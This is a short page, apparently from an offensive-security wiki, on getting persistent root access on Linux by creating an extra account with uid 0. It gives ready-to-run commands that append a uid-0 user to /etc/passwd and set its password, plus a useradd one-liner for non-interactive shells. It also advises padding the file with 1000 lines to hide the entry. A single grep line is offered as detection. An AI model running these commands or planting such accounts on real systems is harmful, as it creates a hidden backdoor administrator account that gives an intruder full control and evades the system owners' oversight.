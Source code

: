 # Adding a Root user

{% hint style="danger" %}
This technique is not opsec at all !
{% endhint %}

For some reason, it is not important that a user is named “root”, but that it’s uid is 0. So if you create a user with the uid 0, you’ll have root privileges. Multiple users with the same uid but different name isn’t harmful. So combining this with the 1000 scroll lines trick mentioned above, you have to do something like this:

```
echo 'hackr:x:0:0:hackr,,,:/home/hackr:/bin/bash' | sudo tee -a /etc/passwd
printf %sn%s hackr hackr | sudo passwd hackr
```

add 1000 lines to the `passwd` file and do the things above again. To counter:

```
grep ':0:' /etc/passwd
```

### <mark style="color:orange;">Oneliner for non-interactive shells</mark>

```
useradd -u0 -g0 -o -s /bin/bash -p `openssl passwd yourpass` rootuser
```
